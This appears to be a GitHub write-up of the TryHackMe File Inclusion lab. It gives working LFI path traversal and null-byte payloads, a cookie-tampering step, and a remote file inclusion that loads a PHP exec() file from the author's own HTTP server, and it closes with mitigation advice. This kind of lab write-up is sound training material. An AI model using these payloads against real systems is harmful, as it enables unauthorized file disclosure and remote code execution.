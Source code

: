 TryHackMe - File Inclusion Walkthrough
======================================

This walkthrough documents my approach and solutions to the File Inclusion room on TryHackMe:  
https://tryhackme.com/room/fileinc

Overview
--------

The room introduces concepts around Local File Inclusion (LFI) and Remote File Inclusion (RFI) vulnerabilities. It emphasizes techniques like input tampering, bypassing filters, and understanding how web applications handle file loading mechanisms.

Make sure the attached VM is running and visit:  
http://10.10.68.207/challenges/index.php

General LFI Testing Methodology
-------------------------------
1. Find entry points in GET, POST, COOKIE, or HTTP header values.
2. Test with valid inputs to understand baseline behavior.
3. Send invalid/suspicious inputs (e.g. ../../../../etc/passwd) to probe for weaknesses.
4. Use external tools like Burp Suite to inspect and modify raw requests.
5. Look for error messages or behavior changes that reveal file paths or vulnerabilities.
6. Understand and bypass filters, like NULL byte injection (%00) or filename extension restrictions.

Challenge 1: Basic LFI via POST Parameter
-----------------------------------------
- The page says: "The input form is broken! You need to send POST request with file parameter!"

![Screenshot 366](./Screenshot%20(369).png)

- What I did:
    - Inspected the page and modified the form to use POST:
      <form action="#" method="POST">
![Screenshot 366](./Screenshot%20(370).png)
![Screenshot 366](./Screenshot%20(371).png)
    - Submitted the value: ../../../../etc/flag1
![Screenshot 366](./Screenshot%20(372).png)
    - Flag1 printed on screen.
![Screenshot 366](./Screenshot%20(373).png)

Challenge 2: Cookie-Based LFI + NULL Byte Injection
----------------------------------------------------
- Initial screen says: "Welcome Guest! Only admins can access this page!"
![Screenshot 366](./Screenshot%20(374).png)
- What I did:
    - Opened browser dev tools → Storage tab → Cookies
![Screenshot 366](./Screenshot%20(375).png)
    - Changed cookie value from Guest to Admin
![Screenshot 366](./Screenshot%20(376).png)
    - Page changed but included a file called Admin
![Screenshot 366](./Screenshot%20(377).png)
    - Changed the cookie to: ../../../../etc/flag2%00
![Screenshot 366](./Screenshot%20(379).png)
    - Flag2 displayed.

Challenge 3: POST-Based LFI with Filtering Bypass
-------------------------------------------------
- Page looks like a normal input form.
![Screenshot 366](./Screenshot%20(380).png)
- What I tried:
    - Changed form to POST (like Challenge 1)
![Screenshot 366](./Screenshot%20(381).png)
    - Tried path traversal with and without NULL byte: ../../../../etc/flag3%00
![Screenshot 366](./Screenshot%20(382).png)
![Screenshot 366](./Screenshot%20(383).png)
    - Didn’t work via browser, so I used Burp Suite Interceptor
![Screenshot 366](./Screenshot%20(384).png)
    - Modified request method to POST and resent payload
![Screenshot 366](./Screenshot%20(385).png)
    - Burp Suite bypassed the include logic and revealed Flag3

Challenge 4: Remote File Inclusion (RFI)
----------------------------------------
- Navigated to: http://10.10.68.207/playground.php
- Setup:
    - Ran local Python server: python3 -m http.server
    - Created host.txt:
        <?php
        print exec('hostname');
        ?>
![Screenshot 366](./Screenshot%20(386).png)
    - Loaded via browser:
      http://10.10.68.207/playground.php?file=http://10.10.44.82:8000/host.txt
![Screenshot 366](./Screenshot%20(387).png)
    - Flag printed to screen via RFI.
![Screenshot 366](./Screenshot%20(388).png)

Detection, Mitigation, and Prevention of File Inclusion
--------------------------------------------------------

Detection:
- Monitor for suspicious file access patterns (e.g. ../, .php, remote URLs).
- Look for anomalous requests with odd user-agent or cookies.
- Set up WAF rules to catch common LFI/RFI payloads.

Mitigation:
- Never include files based on user input.
- Whitelist allowed filenames or use strict mappings instead.
- Disable remote URL includes in PHP (allow_url_include = Off).

Prevention:
- Use secure coding practices—avoid include($_GET['file']) or similar.
- Sanitize all input using allowlists and strict validation.
- Keep error messages generic to avoid exposing paths.

Flags Captured
--------------
[x] Flag1  
[x] Flag2  
[x] Flag3  
[x] Final RFI Challenge Flag
